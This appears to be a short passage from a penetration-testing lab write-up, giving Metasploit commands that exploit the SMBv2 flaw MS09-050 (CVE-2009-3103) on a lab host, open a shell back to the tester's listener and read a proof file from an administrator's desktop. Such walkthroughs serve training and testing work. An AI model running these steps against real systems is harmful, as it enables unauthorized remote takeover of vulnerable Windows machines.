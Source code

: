 ### Metasploit
The follow steps demonstrate how to exploit CVE-2009-3103 (a.k.a MS09-050).
```bash
msfconsole
search ms09-050
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOST 192.168.54.40
set LHOST tun0
run
shell
whoami
cd C:\Users\Administrators\Desktop\
type proof.txt
```

# Explore

# Escalate
